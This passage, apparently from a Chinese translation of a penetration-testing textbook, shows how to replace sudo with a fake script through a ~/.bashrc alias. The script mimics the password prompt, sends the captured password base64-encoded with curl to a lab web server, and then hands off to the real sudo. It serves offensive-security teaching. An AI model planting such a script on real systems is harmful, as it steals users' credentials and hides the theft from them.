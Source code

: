 您可以调整此技术来流式传输任何有价值的文件，如应用程序或系统日志文件，在渗透测试期间。

### 锻造一个不那么无辜的 sudo

在第九章中，我们利用 sudo 命令的配置错误来提升我们的权限。但我们还可以通过另一种方式来损害 sudo：通过替换为我们自己的恶意版本，然后在用户输入密码运行命令时收集其密码。

此方法的主要缺点在于，当用户向 sudo 提供正确的密码时，它会缓存凭据一段时间（例如 15 分钟），后续命令将无需重新输入密码。负责缓存持续时间的设置称为 timestamp_timeout。

尽管有缓存，如果我们能拦截用户第一次输入密码时的执行，我们可能能够泄漏他们的密码。让我们通过这样一个例子来详细说明。在这种情况下，我们假设我们可以访问并修改用户的环境，以及修改像 *~/.bashrc* 这样的文件。

我们将创建一个伪造的 sudo 脚本。然后，我们将修改被入侵用户的环境，通过别名执行伪造版本调用 sudo，使用 curl 发送他们的密码到网络，并继续正常的 sudo 执行流程，以避免引起怀疑。

让我们开始吧！您可以在 *p-jumpbox-01* (172.16.10.13) 上的备份用户帐户中植入虚假 sudo 脚本来执行此场景。在某个可写位置创建此虚假 sudo 文件：

```
$ **touch /tmp/sudo && chmod +x /tmp/sudo**
```

接下来，通过向受损用户的 *~/.bashrc* 环境文件添加一行来创建别名：

```
alias sudo='/tmp/sudo'
```

最后，将脚本填充到 列表 10-8 中的代码中。

```
#!/bin/bash
ARGS="$@"

leak_over_http() {
  local encoded_password
❶ encoded_password=$(echo "${1}" | base64 | sed s'/[=+/]//'g)
  curl -m 5 -s -o /dev/null "http://172.16.10.1:8080/${encoded_password}"
}

❷ stty -echo
❸ read -r -p "[sudo] password for $(whoami): " sudopassw

leak_over_http "${sudopassw}"
❹ stty echo
echo "${sudopassw}" | /usr/bin/sudo -p "" -S -k ${ARGS} 
```

列表 10-8：一个虚假 sudo 脚本

在 ❷ 处，我们通过使用 stty -echo 关闭输入回显。然后，我们从用户那里读取输入，并呈现类似 sudo 的提示符 ❸。由于输入是用户的密码，在用户输入密码时不应该明文显示。这是因为，默认情况下，sudo 在用户输入时隐藏输入，我们需要模拟原始命令的外观和感觉。因此，我们在接受用户输入之前禁用输入回显。

接下来，我们通过使用 leak_over_http() 函数泄漏提供的密码。该函数将使用 base64 对密码进行编码，并使用 curl 发起 HTTP GET 请求到 web 服务器的路径，使用捕获的密码作为路径 ❶。

在 ❹ 处，我们打开输入回显并传递密码，以及用户执行的命令到真正的 sudo 二进制文件 (*/usr/bin/sudo*)，以便 sudo 执行正常恢复。图 10-1 从头到尾展示了这个流程。
